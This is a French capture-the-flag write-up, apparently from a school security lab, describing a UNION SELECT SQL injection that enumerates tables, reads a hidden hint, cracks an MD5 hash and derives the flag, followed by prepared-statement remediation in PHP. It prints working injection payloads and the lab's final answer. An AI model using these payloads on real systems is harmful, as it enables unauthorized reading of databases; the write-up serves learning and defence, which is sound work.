 # Injection SQL avec UNION SELECT

## 1. Introduction
J'ai exploité une **injection SQL de type UNION SELECT** pour récupérer des informations sensibles depuis la base de données. Cette attaque m'a permis de révéler des tables cachées, de lire des données confidentielles, et finalement de décoder un **flag** en utilisant des algorithmes de hachage.

## 2. Comment j'ai trouvé la faille
En examinant le comportement des paramètres dans l'URL, j'ai suspecté une **injection SQL**. J'ai utilisé une **condition fausse (`1 AND 1=2`)** suivie d'un **UNION SELECT** pour combiner mes requêtes avec celles du serveur.

### **Requête pour lister les images**
```sql
1 OR TRUE
```

Cela m'a permis de réveler la liste des images.

![Première injection](images/1.png)

### **Requête pour lister les tables**
```sql
1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables;
```
Cela m'a permis de révéler les schémas et les noms de tables dans la base de données, y compris une table intéressante appelée `list_images`.



### **Requête pour lire les colonnes de list_images**
```sql
1 AND 1=2 UNION SELECT comment, title FROM list_images;
```
En interrogeant cette table, j'ai obtenu l'information suivante :

```
Title: Hack me ?
Url : If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```

![Troisième injection](images/3.png)

## 3. Exploitation de la faille
J'ai ensuite utilisé l'information obtenue pour déchiffrer le flag :

1. **Déchiffrement du MD5**
```
1928e8083cf461a51303633093573c46  =>  albatroz
```
J'ai utilisé un site de décryptage MD5 en ligne pour trouver le mot **albatroz**.

![Decryptage](images/4.png)

2. **Conversion en SHA-256**
En utilisant le terminal, j'ai converti le texte déchiffré en SHA-256 :
```bash
echo -n "albatroz" | sha256sum
```
Ce qui m'a donné le flag final :
```
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

![Flag](images/5.png)

## 4. Impact de la faille
Cette faille permet de :
- Lister toutes les tables de la base de données.
- Lire les données sensibles depuis n'importe quelle table.
- Contourner les contrôles d'accès en manipulant les requêtes SQL.
- Déchiffrer des informations confidentielles.

## 5. Comment prévenir cette faille
Pour éviter cette injection SQL, il faut :
- **Utiliser des requêtes préparées** (`Prepared Statements`) qui séparent les entrées utilisateur de la logique SQL.
- **Échapper les entrées utilisateur** avec des fonctions dédiées selon le langage de programmation utilisé.
- **Valider les entrées** pour s'assurer qu'elles correspondent aux types de données attendus (par exemple, des entiers pour les IDs).
- **Limiter les permissions de l'utilisateur SQL** pour restreindre l'accès aux schémas et aux tables critiques.

## 6. Comment corriger la faille
Voici un exemple de requête préparée en PHP pour éviter cette injection :
```php
$stmt = $pdo->prepare("SELECT comment, title FROM list_images WHERE id = :id");
$stmt->execute(['id' => $_GET['id']]);
$result = $stmt->fetch();
```
Ce code utilise des **paramètres nommés** et des **requêtes préparées** pour protéger la base de données.

## 7. Conclusion
J'ai utilisé une **injection SQL UNION SELECT** pour énumérer les tables de la base de données, lire des données sensibles, et décoder un flag à l'aide de **MD5** et **SHA-256**. Cette exploitation montre l'importance des **requêtes préparées**, de la **validation stricte des entrées utilisateur**, et de la **gestion des permissions SQL** pour protéger les applications web.



